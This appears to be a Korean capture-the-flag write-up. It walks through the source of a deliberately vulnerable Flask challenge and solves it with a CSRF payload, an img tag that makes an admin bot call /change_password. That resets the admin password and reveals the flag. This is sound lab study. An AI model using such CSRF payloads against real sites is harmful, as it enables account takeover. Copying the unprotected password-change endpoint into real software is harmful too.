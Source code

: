 ### 문제 코드

```python
users = {
    'guest': 'guest',
    'admin': FLAG
}
```

ID와 PWD가 나와있습니다.

#

#### read_url

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        print(str(e))
        # return str(e)
        return False
    driver.quit()
    return True
```

해당 url을 방문합니다.

#

#### check_csrf

```python
def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

입력받은 url과 이용자의 쿠키로 해당 url을 방문하는 read_url 함수를 호출합니다. 그래서 CSRF 취약점이 발생합니다.

#

#### app.route("/")

```python
@app.route("/")
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not an admin"}')
```

로그인이 유무를 확인하고 안되어있으면 please login을 출력합니다.
username이 admin이면 index.html을 랜더링할 때 FLAG를 출력합니다.

#

#### app.route("/vuln")

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

frame, script, on 태그가 들어오면 모두 *로 변환합니다.

#

#### app.route("/flag", methods=["GET", "POST"])

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        session_id = os.urandom(16).hex()
        session_storage[session_id] = 'admin'
        if not check_csrf(param, {"name":"sessionid", "value": session_id}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

flag.html 페이지를 랜더링 해줍니다.
입력창을 통해 url 일부를 입력 받습니다. 그 후 check_csrf 함수를 호출합니다.

#

#### app.route('/login', methods=['GET', 'POST'])

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(8).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'
```

로그인 페이지입니다.
username과 password를 입력받습니다.

#

#### app.route("/change_password")

```python
@app.route("/change_password")
def change_password():
    pw = request.args.get("pw", "")
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    users[username] = pw
    return 'Done'
```

패스워드를 변경하는 페이지입니다.

⇾ 입력받은 URL을 확인하는 봇이 구현되어 있다고 하니 CSRF 취약점을 이용해서 봇이 /change_password 페이지에 접속하게 하여 패스워드를 변경하면 될거 같습니다.


<br>
<br>


### 익스플로잇

admin 유저의 패스워드를 admin으로 변경하도록 공격 코드를 짜보겠습니다.

```html
<img src="/change_password?pw=admin">
```

<br>

이제 익스플로잇을 해보겠습니다.

##### 1. guest 계정으로 로그인

<img src="https://velog.velcdn.com/images/silvergun8291/post/502c8ab5-19ad-480b-9165-5d0dfdcb19ea/image.png">

<img src="https://velog.velcdn.com/images/silvergun8291/post/5715c03c-d651-4109-ac6e-859014cdca8b/image.png">

<br>

#### 2. 공격 코드 입력

<img src="https://velog.velcdn.com/images/silvergun8291/post/3f469575-6819-4aa9-82ce-738f684ee7e2/image.png">

<br>

#### 3. admin 계정으로 로그인

```
username : admin
password : admin
```

<img src="https://velog.velcdn.com/images/silvergun8291/post/9615b359-6e3d-4e64-92cb-8e34e6796a7d/image.png">

<img src="https://velog.velcdn.com/images/silvergun8291/post/e9f295ea-7b85-457d-a794-6b335c611f6d/image.png">

admin 계정으로 로그인 하는데 성공했고 플래그가 출력되었습니다.


